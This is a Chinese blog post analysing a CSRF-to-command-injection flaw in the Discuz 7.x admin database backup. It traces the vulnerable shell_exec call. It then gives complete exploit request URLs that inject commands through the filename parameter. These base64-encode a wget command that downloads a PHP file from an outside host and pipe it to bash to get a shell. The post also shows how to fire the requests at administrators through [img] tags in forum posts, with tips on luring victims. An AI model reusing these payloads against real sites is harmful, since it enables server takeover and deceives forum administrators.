

##
Discuz7.x csrf漏洞分析

  之前看到wooyun上menmen519同学爆出的一个Discuz7.x csrf漏洞，但是看了下，没有深度分析和利用，我这里发表下自己的见解。
  
  在discuz7.X后台－>工具->数据库->备份 选项卡中，我们可以备份数据，这里有两次请求，第一个是post，里面有formhash字段进行cstf防御，  但是在第二次get请求中，没有防御，造成严重后果。
  
  在discuz中有全局变量注册的功能，这点大一点的程序都会有。这也是一个安全风险，即全局变量覆盖会进一步导致其他安全风险，但这次不是我们的重点。
  
  看操作：
  第一次post操作，创建分卷
  
  
  第二次get操作获取信息，并执行。
  
  
  
  在 admin/db.inc.php 文件中，写的是备份数据库的逻辑。在文件的第284行
      `	@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($extendins == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $sqlcompat == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);`
      
  而这个$dumpfile变量我们是可控的，追踪$dumpfile，
  
      `$dumpfile = addslashes(dirname(dirname(__FILE__))).'/'.$backupfilename.'.sql';`
  追踪$backupfilename变量，可以看到$backupfilename过滤了 "/" 和 "." 号，为我们给我们getshell带来不便。
  
      `$backupfilename = './forumdata/'.$backupdir.'/'.str_replace(array('/', '\\', '.'), '', $filename);`
  其实这个这个filename变量就是我们get请求中的一个参数，但是这个$filename在前面是经过过滤的 
  
      `		if(!$filename || preg_match("/(\.)(exe|jsp|asp|aspx|cgi|fcgi|pl)(\.|$)/i", $filename)) {                                                
			cpmsg('database_export_filename_invalid', '', 'error');
		}
	`
  这里过滤了一些什么.exe, .jsp啊的后缀。这里不关心。我将代码输出并执行，方便我们fuzz，并不影响代码逻辑。
    
  
  
  可以看到，将 "." 过滤了，这样一来我们就不能直接echo内容到php文件了。
  
  那么如何执行到这里的shell_exec()函数呢， `if($operation == 'export') {`
  首先要进这个条件中，我们get中的`operation=export`  operation参数要为export，然后
  看到  我们需要`method!=multivol` 那我们就随便写，或者置空。
  
  
  
  可以看到已经执行并打印了，在Linux/windows下可以用 "&" 符号链接命令，不懂的可以自己测试或者看看代码执行方面的文章。
  `filename=151227_1& echo 111 > shell & xx`  需要url编码一下
  然后可以看到
  
  
  
  有的朋友可能就想直接echo一句话到PHP文件中了，但是之前我们看到时过滤了 "/" 和 "." 号的，我们如何绕过呢。 我在这里教给大家一个小技巧，我们可以将`wget http://xx.com/1.php` 命令进行base64编码，然后再让shell解码执行。

<pre>
	* 我们先写入一个base64编码的命令到一个文件中 echo xx > shell*
	* 再用命令将他读出病执行 base64 -D shell | bash 就可以getshell了*
</pre>
  1.将`wget http://fengxuan.com/test/info.php `编码d2dldCBodHRwOi8vZmVuZ3h1YW4uY29tL3Rlc3QvaW5mby5waHA=
  第一次请求 "admincp.php?action=db&operation=export&type=custom&saveto=server&filename=151227_1%26%20echo%20d2dldCBodHRwOi8vZmVuZ3h1YW4uY29tL3Rlc3QvaW5mby5waHA%3D%3E%20shell%20%26xx&method=sb&sizelimit=2048&volume=1&tableid=1&startfrom=0&extendins=0&sqlcharset=&sqlcompat=&exportsubmit=yes&usehex=1&usezip=0&sid=JS5q8R"
  
  第二次请求 "admincp.php?action=db&operation=export&type=custom&saveto=server&filename=151227_1%26%20%20base64%20-D%20shell%20%7C%20bash%20%26xx&method=sb&sizelimit=2048&volume=1&tableid=1&startfrom=0&extendins=0&sqlcharset=&sqlcompat=&exportsubmit=yes&usehex=1&usezip=0&sid=JS5q8R"
  执行代码
  
  
  
  
  而触发这些代码，你只要在前台发表帖子，然后插入两次网络图片，
  `[img]http://fengxuan.com/webapp/discuz72/admincp.php?action=db&operation=export&type=custom&saveto=server&filename=151227_1%26%20%20base64%20-D%20shell%20%7C%20bash%20%26xx&method=sb&sizelimit=2048&volume=1&tableid=1&startfrom=0&extendins=0&sqlcharset=&sqlcompat=&exportsubmit=yes&usehex=1&usezip=0&sid=JS5q8R[/img]`
 就可以了。或者使用xss，运用xsrf，也可以。(写个诱人标题和发些美女图片，肯定会看你的...:) )
 
 
   
  
  
  